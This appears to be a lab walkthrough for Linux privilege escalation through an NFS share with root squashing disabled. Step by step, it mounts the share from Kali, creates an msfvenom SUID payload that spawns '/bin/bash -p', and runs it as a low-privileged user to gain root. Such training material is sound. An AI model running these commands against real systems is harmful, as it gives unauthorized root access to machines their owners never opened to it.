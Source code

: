 # NFS

Check the NFS share configuration on the Debian VM:

`cat /etc/exports`

Note that the **/tmp** share has root squashing disabled.

On your Kali box, switch to your root user:

`sudo su`

Using Kali's root user, create a mount point on your Kali box and mount the **/tmp** share (update the IP accordingly):

`mkdir /tmp/nfs`\
`mount -o rw,vers=2 10.10.10.10:/tmp /tmp/nfs`

Still using Kali's root user, generate a payload using **msfvenom** and save it to the mounted share (this payload simply calls /bin/bash):

`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

Still using Kali's root user, make the file executable and set the SUID permission:

`chmod +xs /tmp/nfs/shell.elf`

Back on the Debian VM, as the low privileged user account, execute the file to gain a root shell:

`/tmp/shell.elf`
